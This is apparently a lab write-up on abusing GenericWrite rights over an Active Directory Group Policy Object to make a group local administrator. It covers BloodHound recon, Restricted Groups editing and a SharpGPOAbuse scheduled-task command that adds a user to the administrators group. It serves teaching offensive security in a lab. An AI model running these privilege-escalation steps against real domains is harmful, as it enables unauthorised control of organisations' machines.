 If we have some access Control Entries (ACEs) like **GenericWrite** over GPO, we could make our group is member of the administrator group of the target machine.<br>
we could reach to this machine via some recon using bloodhound:
![3a911e2876de1ee5cda169cd2089a0ce](https://github.com/user-attachments/assets/566284a2-c465-4e3b-9e5c-ff803067852b)
in the screen above we could see the ```svcservman``` account has GenericWrite permission over the "MANAGEMENT SERVER PUSHES" GPO, and this GPO is linked to "MANAGEMENT SERVERS" OU which contain THMSERVER2 machine.

First we need to inject AD user's creds into memory using ```runas``` command:
```         
C:\>runas /netonly /user:<DOmainName>\<AD Username> cmd.exe
```

Now we need to open MMC to modify the GPO:
```
C:\>mmc
```

We now want to add the Group Policy Management snap-in:

    Click File -> Add/Remove Snap-in
    Select the Group Policy Management snap-in and click Add
    Click Ok
    
  Then go to the vuln GPO and edit it.<br>
 In order to add our group which our account is member of to the administrators group, we need to perform the following steps:
 
    Expand Computer Configuration
    Expand Policies
    Expand Windows Settings
    Expand Security Settings
    Right Click on Restricted Groups and select Add Group
    Click Browse, enter our group(IT SUPPORT for example) and click Check Names
    Enter the Administrators in the second field
    Click OK


now our account which member of the added group became an administrator over the targer machine (which is THMSERVER2 in our example).
```
Restricted groups 
دي
 GPO
بتخلينا نضيف اي جروب لاي جروب تاني يعني مثلا لو عندنا جروب اسمه
it
 وعاوزين الجروب دا يبقي
 admins
 نعمله
GPO
ونحطه مع جروب ال
administrators

```

**If we have no GUI to exploit this misconfigration?**
------------------------------------------------------------


We may try adding the ```svcservman``` user to the local Administrators group leveraging a tool called ```SharpGPOAbuse```.
<br>
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author <domain name>\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators svcservman /add" --GPOName "<GPO name>"

gpupdate /force
```

THis command for adding a scheduled task to a Group Policy Object (GPO) using ```SharpGPOAbuse```.

This will add a task named "Debug" to the GPO "MANAGEMENT SERVER PUSHES"(for example). The task will execute a command to add the ```svcservman``` user to the administrators group. Make sure the GPO name is correct, and you have the required permissions to make changes to this GPO.
<br>
**Finally**, Let's review our group memberships after we forced the policies to be updated on the target machine:
```
net user svcservman
```





